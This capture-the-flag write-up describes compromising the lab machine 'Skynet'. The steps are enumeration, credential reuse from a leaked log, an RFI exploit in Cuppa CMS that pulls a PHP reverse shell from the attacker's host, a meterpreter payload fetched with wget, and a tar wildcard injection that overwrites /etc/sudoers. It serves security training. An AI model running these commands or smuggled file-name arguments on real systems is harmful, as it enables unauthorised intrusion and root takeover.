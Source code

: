 # SKYNET

![title](https://user-images.githubusercontent.com/46513413/79808126-db5f0200-833a-11ea-85e6-0765061d0476.png)


## Reconnaissance

Runing NMAP reveals the following open ports/services:

    PORT    STATE SERVICE     VERSION
    22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
    |   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
    |_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
    80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Skynet
    110/tcp open  pop3        Dovecot pop3d
    |_pop3-capabilities: RESP-CODES CAPA UIDL TOP SASL AUTH-RESP-CODE PIPELINING
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    143/tcp open  imap        Dovecot imapd
    |_imap-capabilities: LITERAL+ LOGINDISABLEDA0001 IMAP4rev1 OK post-login more capabilities LOGIN-REFERRALS listed have ID Pre-login IDLE SASL-IR ENABLE
    445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.80%E=4%D=4/19%OT=22%CT=1%CU=40871%PV=Y%DS=2%DC=T%G=Y%TM=5E9CE16
    OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=8)OPS
    OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
    OS:1NW7%O6=M54DST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
    OS:(R=Y%DF=Y%T=40%W=6903%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
    OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
    OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
    OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
    OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
    OS:=S)

    Network Distance: 2 hops
    Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s
    |_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: skynet
    |   NetBIOS computer name: SKYNET\x00
    |   Domain name: \x00
    |   FQDN: skynet
    |_  System time: 2020-04-19T18:40:14-05:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2020-04-19T23:40:13
    |_  start_date: N/A


Running gobuster revealed the following directories: 

    /index.html 
    /admin 
    /ai 
    /config 
    /css 
    /js 
    /squirrelmail 
    /.htaccess 
    /.hta 
    /.htpasswd 
    /server-status 
    
    
## Services

**SMB**

Notable output from enum4linux.

     ======================================= 
    |    Share Enumeration on 10.10.2.29    |
     ======================================= 

            Sharename       Type      Comment
            ---------       ----      -------
            print$          Disk      Printer Drivers
            anonymous       Disk      Skynet Anonymous Share
            milesdyson      Disk      Miles Dyson Personal Share
            IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
    SMB1 disabled -- no workgroup available

    [+] Attempting to map shares on 10.10.2.29
    //10.10.2.29/print$     Mapping: DENIED, Listing: N/A
    //10.10.2.29/anonymous  Mapping: OK, Listing: OK
    //10.10.2.29/milesdyson Mapping: DENIED, Listing: N/A
    //10.10.2.29/IPC$       [E] Can't understand response:
    NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
    
    S-1-5-21-2393614426-3774336851-1116533619-1000 SKYNET\milesdyson (Local User)
    
 We now have share list, share permissions and a valid system user.  

 We have anonymous access to the anonymous share.
 I downloaded all of the files in the share and found log files. 
 
 The log file titled log1.txt contains user passwords.
 
 
**HTTP**

![skynet](https://user-images.githubusercontent.com/46513413/79807914-41975500-833a-11ea-923f-1287fde183e5.png)

The site itself is nothing special. The sites fundtions are either a POST request for either "Skynet+search" or "I;m Feeling Lucky" without the actual content of the search bar. 

  /squirrelmail - login page for SquirrelMail Login Webmail
  

## Gaining access

**Squirrel mail:**

Trying the system user **milesdyson** with the list of passwords from the log file reveals that **cyborg007haloterminator** is the valid password.

![mail](https://user-images.githubusercontent.com/46513413/79807912-41975500-833a-11ea-929a-07f7786f2ffa.png)

There are three emails in the inbox. The first one contains the milesdyson SMB share password )s{A&2Z=F^n_E.B\` . One of the other two is *"i can i i everything else . . . . . . . . . . . . . . balls have zero to me to me to me to me to me to me to me to me to"* and the other one is that phrase in binary.


**SMB**

Now that we know Miles' password, we are able to log into the milesdyson SMB share. The file notes/important.txt reveals a hidden directory the Miles has and mentions a CMS.

/45kra24zxs28v3yd

![miles](https://user-images.githubusercontent.com/46513413/79807911-41975500-833a-11ea-88b6-edef5c6bfac9.png)


There was nothing special or manipulatable on this page. The CMS mention in the note prompted me to run another directory bust attempt. Running gobuster again on this directory reveals an administrator directory.


![cms](https://user-images.githubusercontent.com/46513413/79807910-40febe80-833a-11ea-9816-eb1f13913b08.png)


Running searchsploit for cuppa shows one RFI/LFI vulnerability.

I ran the SimpleHTTP python module in a directory that contains my php reverse shell script. When the php script is ran it will call back to my system. 
 
I exploited the RFI vulnerability to call the php reverse shell script on my system. 

    http://10.10.184.129/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.3.104/php-reverse-shell.php

The SKYNET box requested and executed my php script that then called back to my machine listenting on port 1234.

I am now user www-data and can read the user.txt file in /home/milesdyson. 

## Upgrading shell to meterpreter 

Created the payload called shell.elf uisng msfvenom. 

Used msf exploit/multi/handler to listened for the call back.

I used the python SimpleHTTP to host shell.elf.

Using my current shell with SKYNET I went to a directory that I can write in /var/www/html. I used wget to download shell.elf and gave it executable permissions with chmod.

After running this I had a successful meterpreter shell on SKYNET.

![meterpreter](https://user-images.githubusercontent.com/46513413/79807913-41975500-833a-11ea-9d6f-72b93177efa0.png)

## Privilege escalation

I used the metasploit exploit suggester script and uploaded and ran [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

    run post/multi/recon/local_exploit_suggester
    
  Out of the 3 suggested local exploits the [BPF sign extension](https://www.rapid7.com/db/modules/exploit/linux/local/bpf_sign_extension_priv_esc) worked and I was able to obtain a root shell. 
  
  The linpeas output and manual poking around releaved a backups job that gets run and saved to /home/milesdyson/backsups. The script is owned and ran as root using tar for the backups.  

Reading this awsome article by **int0x33** shows excatly how to abuse the wildcard in "tar * " into using file names as command arguments to be able to either run a reverse shell script or add the current user into the sudoers file.
 
I decided to go the sudoers route. I ran "shell" to drop into a normal shell and ran the following to have a proper tty terminals session. 

    python -c 'import pty;pty.spawn("/bin/bash")';
 
I moved to /var/www/html (which is the directory being tar'd) and ran the following.

    echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
    echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
    echo "/var/www/html"  > --checkpoint=1

After short while I ran "sudo -l" with the following results.

    User www-data may run the following commands on skynet:
        (root) NOPASSWD: ALL

I am now able to run "sudo cat /root/root.txt" :)

![root](https://user-images.githubusercontent.com/46513413/79807915-422feb80-833a-11ea-8a7b-a1246d61051c.png)
